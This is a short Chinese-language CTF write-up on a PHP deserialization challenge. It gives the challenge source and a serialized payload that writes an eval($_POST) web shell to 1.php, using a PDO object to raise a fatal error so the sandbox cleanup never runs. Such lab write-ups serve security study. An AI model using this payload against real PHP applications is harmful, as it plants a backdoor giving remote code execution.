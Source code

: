 ## 2021-8-16PHP反序列化
#php #反序列化 
题目[入口](http://ctf.igml.top:7002/)
初始页面回显
```php
<?php  
show_source(__FILE__);  
$dir = './sandbox/'.md5($_SERVER['REMOTE_ADDR']);  
echo $dir;  
echo "<br>";  
is_dir($dir) ?: mkdir($dir);  
$line = $_GET['a'];  
class B {  
    public $content;  
    public $filename;  
    function __destruct() {  
        if(strstr($this->filename,'..')){  
            die('No');  
        }else{ file_put_contents('./sandbox/'.md5($_SERVER['REMOTE_ADDR']).'/'.$this->filename, $this->content);  
        }  
          
    }  
}  
$a = @unserialize($line);  
system('rm -rf '.$dir);  
echo "unserialize yyds";  
./sandbox/701435ed682069e3a94bb1b674b7ff6c  
unserialize yyds
```
[[../language/PHP/function&class/$_SERVER#^68a820|REMOTE_ADDR]]提取当前服务器的IP地址并进行MD5运算，执行`ping ctf.igml.top`得到IP地址为 202.112.51.236

解
```php
O:1:"B":3:{s:7:"content";s:31:"<?php echo 1;eval($_POST[a]);?>";s:8:"filename";s:5:"1.php";s:6:"decade";O:3:"pdo":0:{};}
```
fatal error，导致后面代码停止执行，但是反序列化的destruct方法还是会执行
